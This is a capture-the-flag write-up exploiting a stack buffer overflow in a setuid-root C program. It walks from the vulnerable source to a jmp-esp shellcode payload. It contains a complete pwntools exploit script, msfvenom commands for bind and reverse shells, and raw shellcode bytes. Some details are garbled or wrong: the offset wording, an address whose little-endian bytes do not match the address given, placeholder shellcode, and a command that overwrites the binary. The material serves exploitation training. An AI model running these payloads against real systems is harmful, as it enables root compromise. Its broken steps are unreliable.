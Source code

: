 ```c
#include <stdio.h>

int secret_function() {
    asm("jmp %esp");
}

void receive_feedback()
{
    char buffer[64];

    puts("Please leave your comments for the server admin but DON'T try to steal our flag.txt:\n");
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    receive_feedback();

    return 0;
}
```

```txt
flag{w417_h0w_d1d_y0u_d0_7h47}
```

```bash
gcc prog.c -o prog -fno-stack-protector -z execstack -no-pie -m32
```

Ok so we have a `flag.txt` file which is only readable by the root user. We need to somehow trick the server, which is running as root, to reading the `flag.txt` file and give us the read content. There's no stack protection enabled according to `checksec`. `NX` was not enabled, therefore we can potentially inject our shellcode into this executable.

The server will use the setuid and setgid to make sure the file runs as root. The `receive_feedback` function just reads a 64-character string into the `buffer`. There's a `secret_function`, which performs a jump instruction to the address stored by register `esp`, which is the stack pointer. The `secret_function` doesn't really do anything interesting, it's just there for this challenge to make it so that we can easily create our ROP gadgets.

Our goal is to overwrite the return value with the `esp` value to jump to the stack, which will contain our shellcode, and the program will start executing our shellcode.

For this, the 77th-30th characters will land in the return address of `receive_feedback`, so there needs to be 76 padding bytes. After that, we want to write the `jmp esp` instruction onto the return address so that the program will jump to the top of the stack, which will contain our shellcode.

In this case, the address for `jmp esp` is `0x0804919f`. Now we need to generate our shellcode. We can use a tool like `shellcraft` or `msfvenom` to generate the shell. We'll generate a shellcode that will give us a 32-bit shell to use. This shell will be run with the permissions of the executable, which is root.

```bash
shellcraft i386.linux.sh
```

> We could also just generate shellcode that will cat the `flag.txt`.

Our payload will also contain some "slack" instructions (a bunch of `nop` instructions) before the shellcode.

```python
python -c 'import sys; sys.stdout.buffer.write(b"A" * 76 + b"\x9f\x91\x40\x80" + b"\x90\x90\x90\x90\x90\x90\x90\x90" + b"\xsh\xell\xco\xde"' > ./prog
```

> Doing this manually takes a lot of time. Use `pwntools` to automate the creation of the shellcode and exploitation.

Automation script with `shellcraft` and `pwntools`:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './server'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Exploit start
io = start()

# Offset to EIP
padding = 76

# Assemble the byte sequence for 'jmp esp' so we can search for it
jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

# Print flag
shellcode = asm(shellcraft.cat('flag.txt'))
# shellcode = asm(shellcraft.sh())
# Exit
shellcode += asm(shellcraft.exit())

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 8,
    shellcode
)

# Write payload to file
write("payload", payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

Side note: We can also specify the shellcode in the script like this (if we do decide to generate the shellcode with something that's not supported by `pwntools` like `msfvenom`)

```bash
# example msfvenom commands
msfvenom -p linux/x86/exec CMD="curl https://example.com" -b '\x00' -f python
msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python
msfvenom -p linux/x86/read_file PATH=flag.txt FD=2 -b '\x00' -f python
```

```python
# example msfvenom shellcode in the python script
shellcode = b"\xb8\xa4\xe4\x0d\x3b\xda\xd2\xd9\x74\x24\xf4\x5b\x31"
shellcode += b"\xc9\xb1\x12\x31\x43\x14\x83\xc3\x04\x03\x43\x10\x46"
shellcode += b"\x11\xe6\x0d\x3e\xdf\xf9\x71\x3e\xbb\xc8\xb8\xf3\xbb"
shellcode += b"\xa2\xf8\xb3\xbf\xb4\xfe\xc3\x36\x53\x77\x3a\xf2\x9c"
shellcode += b"\x98\xbc\x03\x50\x18\x35\xc1\xd2\x1d\x45\xc6\x22\xa5"
shellcode += b"\x47\xc6\x22\xd9\x8a\x46\x9a\xd8\x14\x47\xdb\x61\x14"
shellcode += b"\x47\xdb\x95\xd9\xc7\x33\x50\x1e\x38\x3c\x3d\x8c\xa6"
shellcode += b"\xa4\xec\x38\x51\x5f\xf1"
```